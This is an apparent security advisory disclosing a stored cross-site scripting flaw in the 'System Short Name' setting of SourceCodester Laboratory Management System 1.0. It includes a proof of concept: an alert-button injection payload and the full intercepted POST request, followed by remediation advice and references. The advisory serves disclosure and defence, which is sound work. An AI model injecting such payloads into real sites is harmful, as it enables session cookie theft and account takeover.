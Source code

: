 Stored Cross-Site Scripting Vulnerability in SourceCodester Laboratory Management System 1.0 :

Vendor: Sourcecodester
Product: Laboratory Management System 1.0
Product URL: Laboratory Management System 1.0
Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Laboratory Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "System Short Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code. Issue Details

Vulnerability Name: Stored XSS in System Short Name
Severity: High
Affected URL: php-lms/admin/?page=system_info
Affected Parameter: System Short Name
HTTP Method: POST
Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "System Short Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "System Short Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies. Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/php-lms/admin/?page=system_info

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the System Short Name parameter as shown below and send the request to the server.

Content-Disposition: form-data; name="short_name"

```bash
"><button onClick="alert('xss')">
```

In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1IEq_NAREAd9lb_X48aqn59SR4Nm6AUMT/view?usp=drive_link
https://drive.google.com/file/d/1OhByD6Hey9csAp9cMvIJ_EE-A20CFlak/view?usp=drive_link

 Payload:

Content-Disposition: form-data; name="short_name"

```bash
"><button onClick="alert('xss')">
```
```bash
Request:

POST /php-lms/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------3651195747476100243731088427
Content-Length: 643
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=system_info
Cookie: PHPSESSID=mmoofhiuab699hj8pkoi61nmnr
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------3651195747476100243731088427
Content-Disposition: form-data; name="name"

Admin
-----------------------------3651195747476100243731088427
Content-Disposition: form-data; name="short_name"

"><button onClick="alert('xss')">
-----------------------------3651195747476100243731088427
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------3651195747476100243731088427
Content-Disposition: form-data; name="cover"; filename=""
Content-Type: application/octet-stream


-----------------------------3651195747476100243731088427--
```

Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites. Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed. References:

https://portswigger.net/web-security/cross-site-scripting/stored
https://owasp.org/www-community/attacks/xss/ 

Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the System Short Name parameter of php-lms/admin/?page=system_info, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
